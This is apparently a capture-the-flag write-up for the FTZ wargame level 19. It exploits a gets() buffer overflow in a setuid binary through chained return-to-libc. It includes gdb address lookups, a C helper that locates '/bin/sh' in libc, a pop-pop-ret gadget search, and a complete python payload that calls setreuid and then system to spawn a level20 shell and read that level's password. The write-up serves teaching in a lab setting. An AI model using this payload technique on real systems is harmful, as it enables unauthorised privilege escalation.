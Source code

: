 # Level19

## This level's goal
- Chaining return to lib

***

```
[level19@ftz level19]$ ls -l
-rwsr-x---    1 level20  level19     13615 Mar  8  2003 attackme
-rw-r-----    1 root     level19        65 Mar  8  2003 hint

[level19@ftz level19]$ cat hint

main()
{ 
  char buf[20];
  gets(buf);
  printf("%s\n",buf);
}
```

```
[level19@ftz level19]$ gdb -q attackme
(gdb) disass main
0x08048443 <main+3>:    sub    esp,0x28
```

0x28 means 40bytes, so then 40bytes + SFP(4bytes) + RET(4bytes)

```
[level19@ftz level19]$ cp attackme tmp/
[level19@ftz level19]$ gdb -q tmp/attackme
(gdb) b *main
(gdb) run
Starting program: /home/level19/tmp/attackme

(gdb) p system
$1 = {<text variable, no debug info>} 0x4203f2c0 <system>

(gdb) p setreuid
$2 = {<text variable, no debug info>} 0x420d7920 <setreuid>
```

As above, I could get the system's and setreuid's address.

```
[level19@ftz tmp]$ cat getsh.c
#include <stdio.h>
int main()
{
        long shell = 0x4203f2c0;
        while ( memcmp((void*) shell, "/bin/sh", 8) )
        {
                shell++;
        }
        printf("0x%x\n", shell);
        return 0;
}
[level19@ftz tmp]$ gcc getsh.c -o getsh
[level19@ftz tmp]$ ./getsh
0x42127ea4
```

Now, I got /bin/sh's adress in system() function.

And then I need to get setreuid's argvs.

```
[level19@ftz tmp]$ cat /etc/passwd | grep level20
level20:x:3100:3100::/home/level20:/bin/bash
```

Level20's uid is 3100 means 0x0000C1C(HEX).

```
[level19@ftz tmp]$ objdump -d attackme | egrep 'pop|ret'
 80482d3:       c3                      ret
 8048342:       5e                      pop    %esi
 804836e:       5b                      pop    %ebx
 8048385:       c3                      ret
 80483eb:       5d                      pop    %ebp
 80483ec:       c3                      ret
 80483f8:       5d                      pop    %ebp
 80483f9:       c3                      ret
 8048426:       5d                      pop    %ebp
 8048427:       c3                      ret
 8048438:       5d                      pop    %ebp
 8048439:       c3                      ret
 804846a:       c3                      ret
 804849c:       58                      pop    %eax
 804849d:       5b                      pop    %ebx
 804849e:       5d                      pop    %ebp
 804849f:       c3                      ret
 80484a8:       5d                      pop    %ebp
 80484a9:       c3                      ret
 80484ba:       5b                      pop    %ebx
 80484cd:       c3                      ret
```

For the chaining method, PPR's address(pop-pop-ret) is 804849d.

As a result, the attack code will be 44 bytes dummy stirngs + setreuid address + PPR address + ruid + euid + system address + dummy(4bytes) + /bin/sh address.
setreuid address = 0x420d7920   
PPR address = 0x804849d   
ruid and euid = 0x0000C1C   
system address = 0x4203f2c0   
/bin/sh address = 0x42127ea4

```
[level19@ftz level19]$ (python -c 'print "A"*44+"\x20\x79\x0d\x42"+"\x9d\x84\x04\x08"+"\x1c\x0c\x00\x00"+"\x1c\x0c\x00\x00"+"\xc0\xf2\x03\x42"+"A"*4+"\xa4\x7e\x12\x42"'; cat) | ./attackme

id
uid=3100(level20) gid=3099(level19) groups=3099(level19)

my-pass
Level20 Password is "we are just regular guys".
```
